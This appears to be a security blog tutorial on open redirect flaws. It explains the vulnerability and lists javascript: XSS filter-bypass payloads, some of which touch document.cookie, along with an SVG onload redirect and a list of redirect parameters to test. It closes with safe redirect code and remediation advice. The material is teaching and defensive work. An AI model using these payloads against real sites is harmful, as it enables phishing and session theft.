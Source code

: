 ```yaml
---
title: Open Redirect Vulnerability
#author: cotes
date: 2024-01-02 12:00:00 +04:00
categories: [Web Vulnerabilities,Open Redirect]
tags: [Web Vulnerabilities]
render_with_liquid: false
image:
  path: /images/web_vulnerabilities/open_redirection/open-redirection.jpg
  alt: Open Redirect Vulnerability
---
```


## What is Open Redirect?

Unvalidated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials.

Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Unvalidated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application's access control check and then forward the attacker to privileged functions that they would normally not be able to access. 

## Exploitation

Consider this example: Your web application has a feature that allows users to click a link and be automatically redirected to their saved favorite home page. This may be performed as follows: 


  ```console
https://example.com/redirect?url=https://mywebsite.com
```


An attacker could exploit an open redirect here by replacing the `mywebsite.com` with a link to a malicious website. They could then distribute this link in a phishing email or on another website. When users click the link, they're taken to the malicious website.


## Open Redirect to XSS

  ```bash
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```

## Open Redirect uploading svg files

  ```bash
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```


## Common injection parameters

  ```bash
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
qurl=https://c1h2e1.github.io
login=https://c1h2e1.github.io
logout=https://c1h2e1.github.io
ext=https://c1h2e1.github.io
clickurl=https://c1h2e1.github.io
goto=https://c1h2e1.github.io
rit_url=https://c1h2e1.github.io
forward_url=https://c1h2e1.github.io
@https://c1h2e1.github.io
forward=https://c1h2e1.github.io
pic=https://c1h2e1.github.io
callback_url=https://c1h2e1.github.io
jump=https://c1h2e1.github.io
jump_url=https://c1h2e1.github.io
click?u=https://c1h2e1.github.io
originUrl=https://c1h2e1.github.io
origin=https://c1h2e1.github.io
Url=https://c1h2e1.github.io
desturl=https://c1h2e1.github.io
u=https://c1h2e1.github.io
page=https://c1h2e1.github.io
u1=https://c1h2e1.github.io
action=https://c1h2e1.github.io
action_url=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
sp_url=https://c1h2e1.github.io
service=https://c1h2e1.github.io
recurl=https://c1h2e1.github.io
j?url=https://c1h2e1.github.io
url=//https://c1h2e1.github.io
uri=https://c1h2e1.github.io
u=https://c1h2e1.github.io
allinurl:https://c1h2e1.github.io
q=https://c1h2e1.github.io
link=https://c1h2e1.github.io
src=https://c1h2e1.github.io
tc?src=https://c1h2e1.github.io
linkAddress=https://c1h2e1.github.io
location=https://c1h2e1.github.io
burl=https://c1h2e1.github.io
request=https://c1h2e1.github.io
backurl=https://c1h2e1.github.io
RedirectUrl=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
ReturnUrl=https://c1h2e1.github.io
```


## Safe URL Redirects

When we want to redirect a user automatically to another page (without an action of the visitor such as clicking on a hyperlink) you might implement a code such as the following:


**PHP**

```bash
<?php
/* Redirect browser */
header("Location: http://www.mysite.com");
/* Exit to prevent the rest of the code from executing */
exit;
?>
```

**ASP .NET**

```bash
Response.Redirect("~/folder/Login.aspx")
```

**Java**

```bash
response.sendRedirect("http://www.mysite.com");
```

## Remediation

- If possible, applications should avoid incorporating user-controllable data into redirection targets. In many cases, this behavior can be avoided in two ways:
  - Remove the redirection function from the application, and replace links to it with direct links to the relevant target URLs.
  - Maintain a server-side list of all URLs that are permitted for redirection. Instead of passing the target URL as a parameter to the redirector, pass an index into this list.

- If it is considered unavoidable for the redirection function to receive user-controllable input and incorporate this into the redirection target, one of the following measures should be used to minimize the risk of redirection attacks:
  - The application should use relative URLs in all of its redirects, and the redirection function should strictly validate that the URL received is a relative URL.
  - The application should use URLs relative to the web root for all of its redirects, and the redirection function should validate that the URL received starts with a slash character. It should then prepend http://yourdomainname.com to the URL before issuing the redirect.
  - The application should use absolute URLs for all of its redirects, and the redirection function should verify that the user-supplied URL begins with http://yourdomainname.com/ before issuing the redirect.





## References

[**OWASP**](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)

[**Hacktricks**](https://book.hacktricks.xyz/pentesting-web/open-redirect)

[**Pentester**](https://pentester.land/blog/open-redirect-cheatsheet/)

[**Acunetix**](https://www.acunetix.com/vulnerabilities/web/open-redirection/)